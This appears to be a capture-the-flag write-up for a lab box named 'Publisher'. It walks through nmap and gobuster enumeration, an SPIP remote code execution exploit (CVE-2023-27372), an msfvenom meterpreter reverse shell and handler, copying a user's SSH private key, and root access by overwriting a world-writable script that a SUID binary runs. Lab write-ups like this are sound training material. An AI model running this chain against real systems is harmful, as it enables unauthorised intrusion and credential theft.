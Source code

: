 # Publisher

## Enumeration

### NMAP

```sh
nmap -oX nmap/publisher_initial $TARGET
```

```
Starting Nmap 7.94 ( https://nmap.org ) at 2024-06-29 18:39 EDT
Nmap scan report for 10.10.141.134
Host is up (0.20s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 22.95 seconds
```

```sh
nmap -sC -sV -p22,80 -oX nmap/publisher_open $TARGET
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
|   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
|_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Publisher's Pulse: SPIP Insights & Tips
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.24 seconds
```

### Gobuster

```sh
gobuster dir -u http://$TARGET -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -t 50 -o gobuster/initial
```

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.141.134
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 315] [--> http://10.10.141.134/images/]
/server-status        (Status: 403) [Size: 278]
/spip                 (Status: 301) [Size: 313] [--> http://10.10.141.134/spip/]
Progress: 20597 / 56165 (36.67%)[ERROR] parse "http://10.10.141.134/error\x1f_log": net/url: invalid control character in URL
Progress: 56164 / 56165 (100.00%)
===============================================================
Finished
===============================================================
```

- SPIP route discovered. There may be a vulnerability.
- Found SPIP RCE vulnerability on [github](https://github.com/Chocapikk/CVE-2023-27372)

## Exploit

Can exploit `CVE-2023-27372` using the referenced python script to get an unstable shell on the target.

Once an unstable shell is achieved, generate an metasploit payload using `msfvenom -p linux/x64/meterpreter/reverse_tcp -a x64 --platform linux -f elf -o revshell LHOST=<yourip> LPORT=<yourport>`.
Base64 encode the shell using `baes64 revshell` and make base64 all one line.

(On Attacker)
```
msfconsole -q
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set lhost <yourip>
let lport <yourport>
run
```

(On Shell) 
```
echo <base64 from above> | base64 -d > revshell
chmod +x revshell
./revshell
```

After meterpreter session is achieved, you can read the user flag from `/home/think/user.txt`.

To gain a stable foothold, you can download `/home/think/.ssh/id_rsa` and ssh in using `ssh -i id_rsa think@$TARGET`. (note: remember to `chmod 600 id_rsa` after download).

After getting SSH access to the machine, upload the meterpreter payload to `/dev/shm` using the `echo <b64> | base64 -d > /dev/shm/rev` technique and open a meterpreter payload for more access. (_note: I was having permissions issues in the PrivEsc portion using only the SSH shell. the meterpreter session granted  more access_)

## PrivEsc

Running `find / -type f -perm /06000 2>/dev/null` reveals a strange binary named `/usr/sbin/run_container`. 

Running `strings /usr/sbin/run_container` shows that it is executing `/opt/run_container.sh`.

Looking at `/opt/run_container.sh` by running `ls -ali /opt/run_container.sh` shows `777` permissions on the file meaning anyone can overwrite it.

New `/opt/run_container.sh`:

```bash
#!/bin/bash
/dev/shm/rev &
```

_note: make the malicious `run_container.sh` script on your local machine and upload it to `/dev/shm` using meterpreter, then `cp /dev/shm/mal.sh /opt/run_container.sh`._

Make sure there is a meterpreter listener running, then run `execute -f /usr/sbin/run_container` (meterpreter) or `/usr/sbin/run_container` (ssh shell) to get a root meterpreter session.

The flag is located at `/root/root.txt`.
